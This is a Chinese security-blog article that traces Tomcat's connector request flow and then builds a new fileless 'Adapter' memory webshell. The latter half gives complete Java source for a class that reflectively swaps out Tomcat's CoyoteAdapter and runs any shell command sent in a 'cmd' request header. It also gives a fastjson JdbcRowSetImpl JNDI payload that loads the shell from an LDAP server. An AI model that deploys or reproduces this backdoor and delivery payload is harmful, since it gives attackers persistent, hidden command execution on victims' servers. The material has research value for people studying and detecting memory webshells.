






# 连接器中内存马的构造-Adapter 内存马 - 先知社区

## 0x 00 前言

自从 bluE0 大佬提出 executor 内存马已经过去了快两年，Google 一下，发现只有 RoboTerh 大佬构造过 Upgrade 内存马。

明显连接器这个地方还有很多地方可以构造内存马。

网上讲内存马的文章不少，但告诉大家如何构造内存马的文章很少。

所以就有了这篇文章。

我认为要构造一个从没有人提过的内存马，需要对源码有一定了解，所以本文从 tomcat 连接器源码开始调试，

之后以我构造 Adapter 内存马的过程开始，详细讲述的内存马如何构造。

## 0x 01 tomcat 连接器源码调试

为了搭建环境的方便，我直接使用的 spring 内置的 tomcat

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175120-bc5ff0b6-e831-1.png)

从 TomcatWebServer 的 start 方法开始应该就是 tomcat 相关的逻辑了

由于是要从连接器中寻找能构造内存马的组件，那么我们重点看看连接器的部分

直接来到 org.apache.tomcat.util.net.NioEndpoint#public void startInternal() throws Exception

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175130-c2228658-e831-1.png)

### Acceptor

先从 Acceptor 启动的线程开始，看看做了什么工作，来到 org.apache.tomcat.util.net.Acceptor#public void run() {

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175141-c8b23a86-e831-1.png)

该方法代码接着往下看，会发现其会将 accept 方法返回的 Channel 对象交给 Poller 处理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175149-cd4d2c0e-e831-1.png)

### Poller

之后会将 Channel 对象放入 PollerEvent 中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175158-d33aa542-e831-1.png)

最后将 PollerEvent 添加到 Poller 维护的队列中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175215-dd445682-e831-1.png)

Poller 这边线程开启同样也是一个死循环，这个线程会调用 events 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175227-e42ddb26-e831-1.png)

这个 events 方法会将我们刚刚放入队列中的 PollerEvent 取出，并从 PollerEvent 的属性中取出 NioSocketWrapper，把 NioSocketWrapper 注册到 Poller 线程中的 Selector 中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175234-e85122ee-e831-1.png)

我们看看 Poller 的 run 方法后半，

遍历已经就绪的 SelectorKey 集合，从 SelectionKey 中取出 NioSocketWrapper，然后分发处理所有活跃的事件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175322-05088738-e832-1.png)

这个事件怎么处理的呢，生成一个 SocketProcessor 任务对象交给 Executor 去处理。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175329-0936c9c8-e832-1.png)

### Executor

处理的 Executor 实质就是 ThreadPoolExecutor，bluE0 大佬的 executor 内存马就是基于替换这个 ThreadPoolExecutor 而实现的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175343-11ab4e26-e832-1.png)

之后就是 ThreadPoolExecutor 会调用 SocketProcessor 的 run 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175350-15c7a612-e832-1.png)

### Http11Processor

这个 run 方法经过层层调用，最终会调用 Http11Processor（默认）来读取和解析请求数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175357-19fd5736-e832-1.png)

再经过层层调用，会到 Http11Processor 的 service 方法，这个 service 方法中有一个需要注意的，

如果请求头存在有 upgrade 标识，则会走 Upgrade 协议的逻辑。RoboTerh 大佬 就是将自定义的 UpgradeProtocol 添加到 AbstractHttp11Protocol 中，达到注入 UpgradeProtocol 马的目的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175428-2c3b1d70-e832-1.png)

### Adapter

如果不走这个协议，则会调用适配器的 service 方法，默认调用的是 CoyoteAdapter 的 service 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175435-30c5dfec-e832-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175442-346de43c-e832-1.png)

再后面就到容器的逻辑了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175454-3c21ce96-e832-1.png)

## 0x 02 连接器内存马构造

从连接器到容器的整个过程中，所有涉及的组件都有可能构造内存马

这里以构造 Adapter 内存马为例

1.  寻找请求调用栈上的 Adapter 实现类，并找到其调用的方法
2.  寻找存储有 Adapter 实现类的字段
3.  构造 Adapter 内存马
4.  验证 Adapter 内存马

### 寻找请求调用栈上的 Adapter 实现类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175503-4106a418-e832-1.png)

由上图可以看到，一个请求再到 controller 的过程中，会经过 CoyoteAdapter 的 service 方法

调用栈往前看，看看这个 CoyoteAdapter 是存储在那个对象里面的，可以看到 CoyoteAdapter 就是 Http11Processor 的 adapter

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175508-446718f4-e832-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240322175513-47673052-e832-1.png)

也就是后续需要在全局变量中找到 Http11Processor

### 寻找存储 CoyoteAdapter 实现类的字段

这里借用 conly 大佬的 java 内存对象搜索辅助工具寻找

```plain
//设置搜索类型包含 Request 关键字的对象
        List<Keyword> keys = new ArrayList<>();
        keys.add(new Keyword.Builder().setField_type("Http11Processor").build());
        //定义黑名单
        List<Blacklist> blacklists = new ArrayList<>();
        blacklists.add(new Blacklist.Builder().setField_type("java.io.File").build());
        //新建一个广度优先搜索 Thread.currentThread() 的搜索器
//        SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);
        SearchRequstByBFS searcher = new SearchRequstByBFS(o,keys);
         // 设置黑名单
        searcher.setBlacklists(blacklists);
         //打开调试模式，会生成 log 日志
        searcher.setIs_debug(true);
        //挖掘深度为 20
        searcher.setMax_search_depth(30);
         //设置报告保存位置
        searcher.setReport_save_path("E:\\xxx\\log");
        searcher.searchObject();
```

将该段代码封装为一个方法

之后直接放到 controller 方法中寻找

```plain
@RequestMapping("/hello")
    public String hello()  {
        test1.testSearchRequest();
        return "hello world!";
    }
```

可以找到以下符合要求的路径

```plain
TargetObject = {org.apache.tomcat.util.threads.TaskThread} 
  ---> group = {java.lang.ThreadGroup} 
   ---> threads = {class [Ljava.lang.Thread;} 
    ---> [15] = {java.lang.Thread} 
     ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller} 
      ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint} 
       ---> connections = {java.util.Map<U, org.apache.tomcat.util.net.SocketWrapperBase<S>>} 
        ---> [java.nio.channels.SocketChannel[connected local=/127.0.0.1:8081 remote=/127.0.0.1:53770]] = {org.apache.tomcat.util.net.NioEndpoint$NioSocketWrapper} 
         ---> currentProcessor = {org.apache.coyote.http11.Http11Processor}
```

由于该工具原理就是从内存中，搜索某个变量的属性，是否有符合要求的

基于以下考虑，限制了深度

-   第一个是这样反射路径过长，就算是搜索到了，最终构造的 payload 数据会很大
-   第二个是挖掘时间会很长，因为 JVM 虚拟机内存中的对象结构其实是非常的复杂的，一个对象的属性往往嵌套着另一个对象，另一个对象的属性继续嵌套其他对象…

深度优先可能会错过比较短的反射链，所以建议深度优先和广度优先结合着来

基于前面源码调试，可以发现，连接器里面的东西，很多都能从 NioEndpoint 中获取，所以其实实在搜不到，也可以分两步进行

第一步是搜 NioEndpoint 对象

第二步是从 NioEndpoint 对象中搜索需要的对象

不一定要从全局变量中找，只要是存储有我们需要信息的对象，并且我们能够获取到就能满足要求

### 构造 Adapter 内存马

由于请求调用栈上调用的是 CoyoteAdapter 的 service 方法，所以我们需要重写其 service 方法。

但它 service 方法代码太多了，直接 cv 会导致内存马太大，不过可以直接用 super.service(req, res);进行调用父类的

最终构造如下

```plain
@Override
    public void service(org.apache.coyote.Request req, org.apache.coyote.Response res) throws Exception {
        System.out.println("success !");
        String p = req.getHeader("cmd");
        if(null!=p){
            exec(p, res);
        }else {
            //调用父类 service 方法
            super.service(req, res);
        }

    }
```

执行命令的方法如下

```plain
public void exec(String p, org.apache.coyote.Response res) {
        try {
            String[] cmd = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
            byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
            res.doWrite(ByteBuffer.wrap(result));
        } catch (Exception e) {
        }
    }
```

之前找到 CoyoteAdapter 存储在 Http11Processor 中

之后通过 conlyone 大佬的内存对象搜索工具找到如何从当前线程获取 Http11Processor

```plain
TargetObject = {org.apache.tomcat.util.threads.TaskThread} 
  ---> group = {java.lang.ThreadGroup} 
   ---> threads = {class [Ljava.lang.Thread;} 
    ---> [15] = {java.lang.Thread} 
     ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller} 
      ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint} 
       ---> connections = {java.util.Map<U, org.apache.tomcat.util.net.SocketWrapperBase<S>>} 
        ---> [java.nio.channels.SocketChannel[connected local=/127.0.0.1:8081 remote=/127.0.0.1:53770]] = {org.apache.tomcat.util.net.NioEndpoint$NioSocketWrapper} 
         ---> currentProcessor = {org.apache.coyote.http11.Http11Processor}
```

所以可以写出如下获取内存中 Http11Processor 的方法

```plain
public static Object getHttp11Processor() {
        ThreadGroup threadGroup = Thread.currentThread().getThreadGroup();
        Thread threads[] = (Thread[]) getField(threadGroup, threadGroup.getClass(), "threads");
        for(Thread thread:threads){
            //不同的环境下可能需要在不同的线程数组元素中取出，所以使用 for 循环遍历这些线程
            Object o=getField(thread, thread.getClass(), "target");
            if(null!=o&&o instanceof  NioEndpoint.Poller){
                NioEndpoint.Poller target=( NioEndpoint.Poller)o;
                NioEndpoint nioEndpoint = (NioEndpoint) getField(target, target.getClass(), "this$0");
                Set<SocketWrapperBase<NioChannel>> connections = nioEndpoint.getConnections();
                for (SocketWrapperBase<NioChannel> c : connections) {
                    Object currentProcessor = c.getCurrentProcessor();
                    if (null != currentProcessor) {
                        return currentProcessor;
                    }
                }
            }

        }
        return new Object();
    }
```

之后将 Http11Processor 中 CoyoteAdapter 替换为我们内存马的逻辑

```plain
static {
        Http11Processor http11Processor = (Http11Processor) getHttp11Processor();
        CoyoteAdapter adapter = (CoyoteAdapter) http11Processor.getAdapter();
        Connector connector = (Connector) getField(adapter, adapter.getClass(), "connector");
        MyAdapter adapterMem = new MyAdapter(connector);
        setFiled(http11Processor, http11Processor.getClass().getSuperclass(), "adapter", adapterMem);
    }
```

我的 Adapter 内存马完整构造如下

```plain
import org.apache.catalina.connector.Connector;
import org.apache.catalina.connector.CoyoteAdapter;
import org.apache.coyote.http11.Http11Processor;
import org.apache.tomcat.util.net.NioChannel;
import org.apache.tomcat.util.net.NioEndpoint;
import org.apache.tomcat.util.net.SocketWrapperBase;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;
import java.util.Set;


public class MyAdapter extends CoyoteAdapter {

    static {
        Http11Processor http11Processor = (Http11Processor) getHttp11Processor();
        CoyoteAdapter adapter = (CoyoteAdapter) http11Processor.getAdapter();
        Connector connector = (Connector) getField(adapter, adapter.getClass(), "connector");
        MyAdapter adapterMem = new MyAdapter(connector);
        setFiled(http11Processor, http11Processor.getClass().getSuperclass(), "adapter", adapterMem);
    }

    public static Object getField(Object object, Class clazz, String fieldName) {
        Field declaredField;
        try {
            declaredField = clazz.getDeclaredField(fieldName);
            declaredField.setAccessible(true);
            return declaredField.get(object);
        } catch (NoSuchFieldException e) {
        } catch (IllegalAccessException e) {
        }
        return null;
    }

    public static void setFiled(Object object, Class clazz, String filed_Name, Object value) {
        Field flied = null;
        try {
            flied = clazz.getDeclaredField(filed_Name);
            flied.setAccessible(true);
            flied.set(object, value);
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        }
    }

    public static Object getHttp11Processor() {
        ThreadGroup threadGroup = Thread.currentThread().getThreadGroup();
        Thread threads[] = (Thread[]) getField(threadGroup, threadGroup.getClass(), "threads");
        for(Thread thread:threads){
            //不同的环境下可能需要在不同的线程数组元素中取出，所以使用for循环遍历这些线程
            Object o=getField(thread, thread.getClass(), "target");
            if(null!=o&&o instanceof  NioEndpoint.Poller){
                NioEndpoint.Poller target=( NioEndpoint.Poller)o;
                NioEndpoint nioEndpoint = (NioEndpoint) getField(target, target.getClass(), "this$0");
                Set<SocketWrapperBase<NioChannel>> connections = nioEndpoint.getConnections();
                for (SocketWrapperBase<NioChannel> c : connections) {
                    Object currentProcessor = c.getCurrentProcessor();
                    if (null != currentProcessor) {
                        return currentProcessor;
                    }
                }
            }

        }
        return new Object();
    }


    public MyAdapter(Connector connector) {
        super(connector);
    }

    public void exec(String p, org.apache.coyote.Response res) {
        try {
            String[] cmd = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
            byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
            res.doWrite(ByteBuffer.wrap(result));
        } catch (Exception e) {
        }
    }


    @Override
    public void service(org.apache.coyote.Request req, org.apache.coyote.Response res) throws Exception {
        System.out.println("success !");
        String p = req.getHeader("cmd");
        if(null!=p){
            exec(p, res);
        }else {
            //调用父类service方法
            super.service(req, res);
        }

    }
}
```

### 验证 Adapter 内存马

将该马加入 jndi 测试工具，

测试环境为 fastjson1.2.24，jdk8

打入以下 payload

```plain
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/0/MyAdapter/123","autoCommit":true}
```

jndi 测试工具会返回指向 MyAdapter 内存马的 reference

之后受害服务器远程通过 reference 远程加载构造的 Adapter 马

执行器静态代码块中的逻辑，将内存中的 CoyoteAdapter 替换为我们的 Adapter 马

之后发送任意路径下的请求，都会到我们 Adapter 马的 service 方法，如果请求头中带有 cmd，则会执行命令并将结果返回

[](https://xzfile.aliyuncs.com/media/upload/picture/20240326163026-18d54492-eb4b-1.png)

至此，一个没有被大家提出过的内存马就构造出来了，根据 tomcat 连接器处的源码调试可知，一个请求从接收到 controller，在连接器中经过了好几个组件均有可能构造出内存马。

当然也有可能会有一些分支情况，比如 Upgrade 内存马，如果请求头存在有 upgrade 标识，则会走 Upgrade 协议的逻辑。

## 0x 03 写后感

本文作者才疏学浅，文章若有错误或可优化之处，还麻烦各位大佬指点一二。

**参考链接：**

tomcat 源码解读

1.  [https://blog.csdn.net/weixin\_45505313/article/details/118631533](https://blog.csdn.net/weixin_45505313/article/details/118631533)
2.  [https://server.51cto.com/article/689817.html](https://server.51cto.com/article/689817.html)
3.  [https://blog.csdn.net/qq\_32868023/article/details/127836784](https://blog.csdn.net/qq_32868023/article/details/127836784)
4.  [https://blog.csdn.net/ldw201510803006/article/details/119790847](https://blog.csdn.net/ldw201510803006/article/details/119790847)
5.  [https://blog.csdn.net/qq\_40355167/article/details/119702153](https://blog.csdn.net/qq_40355167/article/details/119702153)

连接器内存马

Executor 内存马的实现：[https://xz.aliyun.com/t/11593?time\_\_1311=mqmx0DBD2QD%3D%3DBKDsKE4fWKY0KX4AK4ex](https://xz.aliyun.com/t/11593?time__1311=mqmx0DBD2QD%3D%3DBKDsKE4fWKY0KX4AK4ex)

[初探 Upgrade 内存马 (内存马系列篇六) - FreeBuf 网络安全行业门户](https://www.freebuf.com/vuls/345119.html)

java 内存对象搜索辅助工具

[https://github.com/c0ny1/java-object-searcher](https://github.com/c0ny1/java-object-searcher)

java java-object-searcher 工具实现理论基础 [https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)